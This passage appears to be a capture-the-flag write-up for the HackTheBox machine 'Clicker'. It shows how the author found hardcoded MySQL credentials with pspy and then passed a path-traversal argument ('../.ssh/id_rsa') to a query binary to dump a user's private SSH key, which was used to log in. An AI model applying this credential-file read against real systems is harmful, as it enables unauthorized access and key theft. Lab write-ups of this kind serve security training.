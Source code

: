 While running the binary, I used `pspy` to monitor the system and identify the command that the program was passing to the system, as I was unable to reverse engineer it from the decompiled Ghidra code:

`/usr/bin/mysql -u clicker_db_user --password=clicker_db_password clicker -v > SQLFILEHERE`

The program dynamically replaces my placeholder text based on the evaluation of the case statement mentioned earlier, and it feeds SQL files to the database. Additionally, it uses the `-v` option, enabling verbosity, which allows me to observe the specific contents being provided to the application.
```
2023/09/26 23:09:32 **CMD: UID=1000  PID=9687   | ./execute_query 2** 

2023/09/26 23:09:32 **CMD: UID=1000  PID=9688   | /usr/bin/mysql -u clicker_db_user --password=clicker_db_password clicker -v** 

2023/09/26 23:09:34 **CMD: UID=1000  PID=9689   |** 

2023/09/26 23:09:34 **CMD: UID=1000  PID=9690   | sh -c /usr/bin/mysql -u clicker_db_user --password='clicker_db_password' clicker -v < /home/jack/queries/reset_password.sql** 

2023/09/26 23:09:34 **CMD: UID=1000  PID=9691   | /usr/bin/mysql -u clicker_db_user --password=clicker_db_password clicker -v** 

2023/09/26 23:09:36 **CMD: UID=1000  PID=9692   | ./execute_query 4** 

2023/09/26 23:09:36 **CMD: UID=1000  PID=9693   | ./execute_query 4** 

2023/09/26 23:09:36 **CMD: UID=1000  PID=9694   | /usr/bin/mysql -u clicker_db_user --password=clicker_db_password clicker -v**
```

I exploited this application to read system files using the privileges of the 'jack' user (UID 1000, as listed in /etc/passwd). By utilizing the `5` option, which allowed me to provide my input, I gained access to 'jack's id_rsa file, subsequently granting me SSH access under his account. This exploit was possible due to the verbosity flag, which printed out the data/file fed to MySQL.
```
$ ./execute_query 5 '../.ssh/id_rsa'                              
mysql: [Warning] Using a password on the command line interface can be insecure.
                                                 
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
[snip]
```

I saved the file, adjusted its permissions using `chmod 600 jack_private`, and successfully gained user access!
```
┌──(root㉿dragon)-[~/htb/clicker]
└─# ssh -i jack_rsa jack@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 26 11:15:43 PM UTC 2023

  System load:           0.0087890625
  Usage of /:            54.2% of 5.77GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             241
  Users logged in:       1
  IPv4 address for eth0: 10.129.142.234
```